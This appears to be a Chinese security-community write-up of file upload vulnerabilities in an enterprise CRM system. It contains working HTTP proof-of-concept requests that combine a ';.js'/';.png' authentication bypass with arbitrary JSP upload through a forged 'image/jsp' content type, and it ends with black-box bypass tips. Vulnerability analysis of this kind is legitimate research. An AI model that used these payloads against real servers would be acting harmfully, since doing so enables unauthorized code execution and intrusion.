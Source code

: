 

# 某恩特文件上传漏洞分析 - 先知社区

某恩特文件上传漏洞分析

- - -

## 0X01 前言

最近这段时间某恩特，公众号到处在发，该系统的0day漏洞，可谓是漫天飞了，且利用方式也及其简单，本文就是对该系统目前所爆出来的漏洞进行一个漏洞分析，并在最后给出一个该系统未被公布的0day  
基本上都是这两天的，非常的集中  
[![](assets/1700701273-3e6fb8c3734853f08ca0ad34b4f09ece.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231122140854-9d54731a-88fd-1.png)

## 0X02 漏洞分析

我们来看一下最开始原始的POC

```plain
POST /entsoft_en/entereditor/jsp/fileupload.jsp?filename=1.jsp HTTP/1.1
Host: x.x.x.x
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Connection: close
Content-Length: 27
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: en
Content-Type: application/x-www-form-urlencoded

11111
```

定位到fileupload.jsp文件,只能说相当的简单粗暴有没有，获取输入流，获取文件名，直接保存导致任意文件上传的发生  
[![](assets/1700701273-82753a407688282533179e095e41edc8.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231121202653-407ea8d4-8869-1.png)  
但实际在测试过程中，发现该漏洞影响范围并不是很多，很多均进行了修复，我在测试过程中仅仅成功了2个  
[![](assets/1700701273-ab18e8268057eb33884260dc5ebe14de.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231121202713-4cf432fa-8869-1.png)  
且这套系统对jsp之类的脚本文件均做了鉴权，也就是说先前爆出来的漏洞fileupload.jsp在开发者允许访问白名单中  
[![](assets/1700701273-1824c48e75f742858d18af4bef5cee56.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231121202741-5d655524-8869-1.png)  
继续深入探索，查看web.xml,发现Filter，通过jd-gui反编译common.jar文件即可查看相关代码  
[![](assets/1700701273-7e51d073aa7eff80d558a0d1f1ca15de.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231121202802-69d52ff0-8869-1.png)  
从字面意思上，就可以看见排除了如下后缀，和路径文件  
[![](assets/1700701273-ee67c50784d8b923ffa47c9f79dbdce0.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231121202830-7a70f312-8869-1.png)  
其判断鉴权部分模块，通过contains来判断是否包含需要排除的字符和路径  
[![](assets/1700701273-04af23f3462d9af4f2e78488c51115d7.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231121202854-8909d650-8869-1.png)  
所以访问jsp文件或者需要登录的文件我们可以通过在后缀;.js ;.jpg;.html等方式绕过登录限制  
[![](assets/1700701273-7893173e48aba1521527d41d1d00e5d3.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231121202939-a3ebc992-8869-1.png)  
[![](assets/1700701273-4989c2248577df0128c868ae48bcdd24.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231121202955-acff1d2c-8869-1.png)  
而entsoft\_en也赫然在列，再去看看entsoft中的filupload.jsp,和其他相关的upload  
[![](assets/1700701273-ceba7bc15978f12ddf5bc73d622e57eb.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231121203020-bc1e4a94-8869-1.png)  
依然是个妥妥的任意文件上传，只不过判断了文件是否是jpg，如果是后缀就变成了jpeg  
[![](assets/1700701273-885403f6422983ad1c7950b93bcff70d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231121203041-c894e530-8869-1.png)  
继续查看web.xml  
[![](assets/1700701273-a6d87ccc2053d63408256e369c601db3.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231121203100-d44603aa-8869-1.png)  
定位到实现类  
[![](assets/1700701273-f9d9b396638bdf36f1db6fe56117f1a4.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231121203119-df11a1ea-8869-1.png)  
反编译查看  
[![](assets/1700701273-a15c5545892e47aa394fd87805ab59f8.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231121203134-e882b9a8-8869-1.png)  
定位到MailAction，获取到了三个参数，method，act，eid，后面判断method和act是对应的值，如果是则跳到对应的实现方法中，比如saveAttaFile  
我们主要看获取文件名的操作，以及文件名是否可控，可以看见，并未对文件后缀进行任何过滤，导致任意文件上传的发生  
[![](assets/1700701273-707ad269227853d4adc7e7265495af17.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231121203205-fb02ee18-8869-1.png)  
利用POC

```plain
POST /entsoft/MailAction.entphone;.png?act=saveAttaFile HTTP/1.1
Host: xx
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarye8FPHsIAq9JN8j2A
Content-Length: 179

------WebKitFormBoundarye8FPHsIAq9JN8j2A
Content-Disposition: form-data; name="file";filename="beautif.js"
Content-Type: xxx/txt

1
------WebKitFormBoundarye8FPHsIAq9JN8j2A--
```

POC中的;.png同上，绕过登录限制，继续查看该代码文件发现其AppUpload方法也存在文件上传功能，其文件名判断了contentype是否不为空，以及contentype是否包含image，之后在取contentype中的值作为后缀，我们可以通过image/jsp绕过  
[![](assets/1700701273-b72e28c742d9ce71a85d223ee02b3e72.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231121203234-0c148770-886a-1.png)  
[![](assets/1700701273-57df27dd911b99292c544c573a22ff70.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231121203251-160acaa0-886a-1.png)  
[![](assets/1700701273-1dc9286a9620241052964c27214de3b1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231121203317-25cd34c8-886a-1.png)  
最新的POC

```plain
POST /entsoft/MailAction.entphone;.js?act=AppUpload&bodyID=1 HTTP/1.1
Host: host
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/112.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Content-Type: multipart/form-data; boundary=---------------------------255059884712683317431739889351
Content-Length: 259
Origin: 
Connection: close
Referer: 
Cookie: 

-----------------------------255059884712683317431739889351
Content-Disposition: form-data; name="file"; filename="1.png"
Content-Type: image/jsp

<%= (new java.util.Date()).toLocaleString()%>
-----------------------------255059884712683317431739889351--
```

其他Action中基本上只要有上传基本上都有该类问题，比如/entsoft/CustomerAction.entphone;.js?method=loadFile，注入什么的也不少，该有的漏洞他都有，主要该系统影响的范围也不小，基本上都是通杀的类型。

## 0X03 总结

感觉最值得利用的一点就是鉴权绕过的方式，我们在黑盒测试的过程中，可以多试试;.js ;.png 之类的方式，以及通过/xxx可访问的路径/../鉴权路径目录穿越的方式，说不定也有奇效，总之需要不断的学习呀，如有问题欢迎各位师傅指正，图片打码有点问题，感谢先知社区的审核大大如此认真负责，比心
